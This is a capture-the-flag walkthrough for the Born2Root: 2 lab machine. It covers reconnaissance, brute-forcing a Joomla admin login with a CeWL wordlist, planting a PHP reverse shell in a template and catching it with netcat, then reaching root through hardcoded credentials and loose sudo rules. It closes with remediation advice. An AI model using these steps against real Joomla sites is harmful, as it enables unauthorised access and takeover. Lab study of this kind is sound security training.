

# Born2Root: 2 — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.1.9 |
| **Difficulty** | Easy |
| **OS** | Linux |
| **Goal** | root flag |
| **Source** | [HackingArticles](https://www.hackingarticles.in/born2root-2-vulnhub-walkthrough/) |

## Attack Summary

Born2Root: 2 is a Joomla-based machine. Directory brute-forcing reveals a Joomla CMS. A custom wordlist built with CeWL from the site is used to brute-force the Joomla admin panel via Burp Suite, yielding `admin:travel`. A PHP reverse shell is planted in a Joomla template. Post-exploitation enumeration finds credentials for user `tim` in a local Python script. Tim has broad `sudo` rights, granting a trivial root shell.

## Methodology

1. Network enumeration
2. Directory brute-forcing with dirb
3. Wordlist generation with CeWL
4. Joomla admin brute-force with Burp Suite
5. PHP reverse shell via Joomla template editor
6. Credential discovery in a local script
7. Sudo privilege escalation

---

## Step 1: Reconnaissance

```bash
netdiscover
nmap -A $TARGET
```



**Open ports:**
- 22/tcp — SSH
- 80/tcp — HTTP (Joomla CMS)
- 111/tcp — RPC

The main web page appears generic. Directory brute-forcing is required to find the CMS.

---

## Step 2: Web Enumeration

```bash
dirb http://$TARGET/
```


`dirb` reveals a Joomla installation under `/joomla`. The blog inside Joomla is titled "Tim's Blog," hinting at the username `tim`.

---

## Step 3: Wordlist Generation and Brute-Force

Build a custom wordlist from the Joomla site's content:

```bash
cewl http://$TARGET/joomla/ > dict.txt
```

Use Burp Suite Intruder to brute-force the Joomla admin login at `http://$TARGET/joomla/administrator/`:

- Username: `admin` (default)
- Password list: `dict.txt`


**Credentials found:** `admin` / `travel`

---

## Step 4: Joomla Template PHP Reverse Shell

1. Log in to `http://$TARGET/joomla/administrator/` as `admin:travel`.
2. Navigate to **Extensions → Templates → Templates → beez3 → index.php**.
3. Replace the entire contents with a PHP reverse shell (e.g., from `/usr/share/webshells/php/php-reverse-shell.php`), setting `$ip` to your attacker IP and `$port` to `1234`.
4. Save the file.

```bash
nc -lvnp 1234
```

Browse to `http://$TARGET/joomla/templates/beez3/index.php` to trigger the shell.

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```


---

## Step 5: Post-Exploitation — Credential Discovery

Enumerate local scripts and configuration files:

```bash
cd /opt
ls
cd scripts
ls
cat fileshare.py
```

`fileshare.py` contains hardcoded credentials for user `tim`:

- **Username:** `tim`
- **Password:** `lulzlol`


---

## Step 6: Privilege Escalation via Sudo

Switch to `tim` and check sudo rights:

```bash
su tim
# Password: lulzlol
sudo -l
```

`tim` has broad `sudo` permissions. Escalate to root:

```bash
sudo su
```

```bash
cd /root
ls
cat flag.txt
```


---

## Lessons Learned

1. Default Joomla credentials and CMS admin panels should never be internet-facing without multi-factor authentication.
2. CeWL wordlists derived from a target site are highly effective against site-specific passwords.
3. Hardcoded credentials in application scripts are a critical vulnerability — use environment variables or a secrets manager.
4. Over-permissive `sudo` rules grant an unprivileged user a trivial path to root.

## Remediation

| Vulnerability | Fix |
|---|---|
| Weak Joomla Admin Password | Enforce strong passwords; enable MFA on the admin panel |
| PHP File Upload / Template Edit | Restrict template editing to the filesystem; disable web-based editor in production |
| Hardcoded Credentials | Use environment variables or a vault for all secrets |
| Over-permissive Sudo | Apply principle of least privilege; audit `/etc/sudoers` regularly |
